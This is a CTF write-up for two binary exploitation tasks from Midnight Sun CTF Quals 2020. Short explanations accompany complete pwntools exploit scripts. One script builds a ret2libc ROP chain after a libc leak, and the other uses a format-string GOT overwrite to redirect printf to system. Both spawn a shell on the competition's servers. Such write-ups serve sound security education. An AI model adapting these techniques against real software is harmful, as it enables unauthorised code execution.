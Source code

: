 ```yaml
---
title: Midnight Sun CTF Quals 2020 - Pwn Writeups
summary: 
date: "2020-04-04T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```

# **pwn1(70pts)** #

![TASK](https://imgur.com/4fbyzFx.png)

It was a ret2libc task , but we had firstly to leak the libc base address using BOF (i leaked it through printf address) than we will return to main and perform our ret2 System :D
here is my exploit, if you have any questions you can contact me on twitter @BelkahlaAhmed1 

```python

from pwn import *
p=remote("pwn1-01.play.midnightsunctf.se",10001)
#p=process("./pwn1")
OFFSET=cyclic(72)
POP_RDI_RET=p64(0x0000000000400783)
PUTS=p64(0x0000000000400550)
LEAK=p64(0x602020)
MAIN=p64(0x400698)
payload=OFFSET+POP_RDI_RET+LEAK+PUTS+MAIN
log.info("Payload Crafted")
p.recvuntil("buffer:")
log.info("Sending payload")
#raw_input("attach")
p.sendline(payload) 
data=p.recvline().strip()
leak=u64(data.ljust(8,"\x00"))
BASE_LIBC=leak-0x64e80       # local 0x54a20 
log.info("leaked libc base: "+hex(BASE_LIBC))
p.recvuntil("buffer:")
#BINSH=p64(BASELIBC+0x183cee)
#SYSTEM=p64(BASELIBC+0x46ed0)
RET=p64(0x0000000000400536)  
SYSTEM=p64(BASE_LIBC+0x4f440)
BINSH=p64(BASE_LIBC+0x1b3e9a)
payload=OFFSET+RET+POP_RDI_RET+BINSH+SYSTEM
p.sendline(payload)
p.interactive()
```
**NOTE:** Check Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn1) ** 

# **pwn2(80pts)** #

![TASK](https://imgur.com/lYjuGsS.png)

It was a really fun task , we had a format string vulnerability , so firstly i overwrited the GOT entry of the exit function with main address so we have now an infinite loop and the program will never exit , than using format string we leak the libc base address and than we overwrite the GOT entry of printf with the address of system :D 
Here is my exploit , if you have any questions you can contact me o twitter @BelkahlaAhmed1 

```python

from pwn import *
def extract(add,n):
        p1="0x"+add[-4:]
        p2=add[:6]
        if n==1:
                return p1
        if n==2:
                return p2
def pad(payload):
        return payload+"X"*(63-len(payload))
#p=process("./pwn2")
p=remote("pwn2-01.play.midnightsunctf.se",10002)
p.recvuntil("input:")
EXITGOT=p32(0x804b020)
EXITGOT2=p32(0x804b020+2)
'''
s=""
for i in range(27,34):
        s+="%"+str(i)+"$p "
'''
payload=EXITGOT+EXITGOT2
payload+="%2044x%8$hn%32231x%7$hn"
#raw_input("attach")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline(pad("%30$x"))
data=p.recvuntil("X")
printf=int("0x"+data[-9:-1],16)-5
LIBCBASE=printf-0x50b60
log.info("Leaked Libc Base : "+hex(LIBCBASE))
p.recvuntil("input:")
PRINTFGOT=p32(0x804b00c)
PRINTFGOT2=p32(0x804b00c+2)
SYSTEM=LIBCBASE+0x3cd10
log.info("System address: "+hex(SYSTEM))
payload=PRINTFGOT
payload+=PRINTFGOT2
p1=int(extract(hex(SYSTEM),1),16)
p2=int(extract(hex(SYSTEM),2),16)
log.info("P1: "+str(p1-8)+" P2: "+str(p2-p1))
payload+="%"+str(p1-8)+"x%7$hn%"+str(p2-p1)+"x%8$hn"
log.info("Payload crafted")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline("/bin/sh")
p.interactive()

#Main address 0x80485eb
# 7 stack adress

```

**NOTE:** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn2) **

These tasks were really fun, i'm sorry for the lack of details because i'm really busy this period :( 
